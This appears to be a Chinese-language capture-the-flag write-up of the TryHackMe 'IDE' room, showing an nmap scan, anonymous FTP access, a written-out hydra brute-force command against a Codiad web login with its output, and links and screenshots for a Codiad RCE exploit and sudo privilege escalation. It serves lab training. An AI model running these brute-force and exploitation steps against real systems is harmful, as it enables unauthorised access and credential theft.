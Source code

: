 ```yaml
---
sidebar_position: 48
tags: [Easy, Linux, 匿名身份登陆-Redis, 密码破解-账号, 信息泄露, SUDO]
title: IDE
description: IDE
sidebar_label: IDE
slug: /tryhackme/48
---
```

# IDE
## 端口扫描
```bash
root@ip-10-10-135-46:~/ide/CVE-2021-41773# nmap -sTCV -p 21,22,80,62337 --min-rate 1000 10.10.215.137

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-30 11:54 BST
Nmap scan report for ip-10-10-215-137.eu-west-1.compute.internal (10.10.215.137)
Host is up (0.00019s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.135.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (EdDSA)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
MAC Address: 02:57:6D:63:B9:47 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.38 seconds
```
## FTP - 21
使用匿名身份认证登陆 FTP 服务

```bash
root@ip-10-10-135-46:~/ide# ftp 10.10.215.137
Connected to 10.10.215.137.
220 (vsFTPd 3.0.3)
Name (10.10.215.137:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (77.8158 kB/s)
```

在这里我获取到一个名称为 **-** 的文件, 这是一个特殊的名字

```bash
root@ip-10-10-135-46:~/ide# cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

查看内容得知 john 用户使用的密码是弱密码, 接着我查看 80 端口但是什么也没有这时候我查看 62337 端口

## 62337

访问该端口我发现这是一个名为 Codiad 的 CMS , 因为之前告诉 john 的密码被设置为默认密码所以尝试暴力破解

```bash
root@ip-10-10-135-46:~/ide# hydra -L user.txt -P `locate rockyou.txt` -f 10.10.215.137 -s 62337  http-form-post "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:F=Incorrect Username or Password"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-08-30 12:08:31
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking http-post-form://10.10.215.137:62337//components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:F=Incorrect Username or Password
[62337][http-post-form] host: 10.10.215.137   login: john   password: password
[STATUS] attack finished for 10.10.215.137 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-08-30 12:08:44
```

同时我发现这个 CMS 该版本存在 RCE 漏洞 [Codiad-Remote-Code-Execute-Exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit), 我可以利用此来进行获取 Shell

## 后渗透
### www-data
通过脚本我获取到了用户的 Shell, 在这里我发现 drac 用户的 .bash_history 文件是可以查看的, 并且在这里发现了用户 drac 的密码

![20240630231039](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231039.png)

### www-data —> drac
使用得到的密码进行 SSH 连接即可, 我发现用户具有 SUDO 特权

![20240630231101](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231101.png)

查找发现相关的利用方法 [Sudo Service Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-service-privilege-escalation/)

### drac --> root

![20240630231139](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231139.png)

![20240630231146](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231146.png)
